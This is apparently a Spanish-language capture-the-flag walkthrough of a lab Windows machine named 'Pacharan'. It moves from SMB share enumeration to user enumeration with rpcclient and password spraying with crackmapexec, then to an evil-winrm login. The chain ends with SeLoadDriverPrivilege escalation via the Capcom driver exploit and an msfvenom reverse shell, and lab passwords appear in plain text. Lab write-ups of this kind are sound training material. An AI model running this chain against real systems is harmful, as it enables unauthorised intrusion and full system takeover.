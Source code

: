 sudo arp-scan --interface=eth1 --localnet

192.168.1.148

nmap: 

![image](https://github.com/user-attachments/assets/14a62243-adf8-4284-9f40-2537cdd9b605)

--------

En el escaneo nos dio muchos puertos pero nos dio: "smb2-time:" 
podemos empezar a lanzar por SMB. 
lanzamos:

     smbmap -H 192.168.1.148 -u invitado


![image](https://github.com/user-attachments/assets/1d33d6d6-deba-47fe-b60d-43316c9e5117)

y nos importa los dos que dicen READ ONLY y volvemos a lanzar un smbmap pero utilizando los IPC:

     smbclient -U invitado //192.168.1.148/NETLOGON2

nos da un txt con: Pericodelospalotes6969

![image](https://github.com/user-attachments/assets/2bc4068f-81e0-4b9b-b8ac-51e4a17df294)

ahora tenemos un usuario y una posible contraseña, lanzamos:

     smbmap -H 192.168.1.148 -u orujo -p Pericodelospalotes6969



![image](https://github.com/user-attachments/assets/2bc577e4-de24-44e5-87d2-84c4db6844df)

ahora nos dio un "ah.txt" lo pasamos a nuestro terminal 

![image](https://github.com/user-attachments/assets/784ad59c-4333-4c12-8ff3-c7bc196762c1)

ahora vamos a enumerar los usuarios con "rpcclient" con el de Orujo

     rpcclient -U 'Orujo' 192.168.1.148 

![[the hackers labs/avanzado/pacharan/test6.png]]

ahora todos esos nombres los vamos a meter a un txt. 

>Administrador
Invitado
krbtgt
DefaultAccount
Orujo
Ginebra
Whisky
Hendrick
Chivas Regal
Whisky2
JB
Chivas
beefeater
CarlosV
RedLabel
Gordons

lanzamos: 

     crackmapexec smb 192.168.1.148 -u user.txt -p ah.txt

![[the hackers labs/avanzado/pacharan/test7.png]]

obtenemos: PACHARAN.THL\Whisky:MamasoyStream2er@ 

ahora que tenemos la contraseña podemos usar "rpcclient" otra vez pero con la contraseña que encontramos. 

     rpcclient -U "Whisky%MamasoyStream2er@" 192.168.1.148 -c 'enumprinters'

nos da: 

![[the hackers labs/avanzado/pacharan/test8.png]]

donde marque puede que sea una contraseña. 

lanzamos: 

     crackmapexec winrm 192.168.1.148 -u user.txt -p TurkisArrusPuchuchuSiu1

![[the hackers labs/avanzado/pacharan/test9.png]]

obtenemos: [+] PACHARAN.THL\Chivas Regal:TurkisArrusPuchuchuSiu1 (Pwn3d!)

**"Pwn3d!" se usa cuando un sistema, servidor o cuenta ha sido comprometido exitosamente. Ejemplo: si un atacante logra acceso root a un sistema, puede decir "Pwn3d!" para indicar que ha tomado el control total.**

lanzamos:

    evil-winrm -i 192.168.1.148 -u 'Chivas regal' -p TurkisArrusPuchuchuSiu1

y obtenemos 

![[the hackers labs/avanzado/pacharan/test10.png]]

ahora vamos a escalar privilegios, vamos a crear una carpeta con los exploit que necesitaremos para escalar y aquí hay una explicación sobre la escalada: https://www.tarlogic.com/es/blog/explotacion-seloaddriverprivilege/

nos vamos a la carpeta raíz y creamos un /tmp y dentro empezamos a cargar los exploit.
https://github.com/JoshMorrison99/SeLoadDriverPrivilege

     upload LoadDriver.exe

     upload Capcom.sys

     upload ExploitCapcom.exe 

pasamos esos exploit a la maquina victima, y nos creamos una reverse shell 

     msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o rev.exe

ahora pasamos la rev.exe a la maquina victima, colocamos el terminal nuestro en escucha y ejecutamos el exploit junto a la reverse shell.

     .\ExploitCapcom.exe C:\tmp\rev.exe


![[the hackers labs/avanzado/pacharan/test11.png]]

como vemos da: nt authority\system
que es el nivel mas alto de privilegios del sistema. 
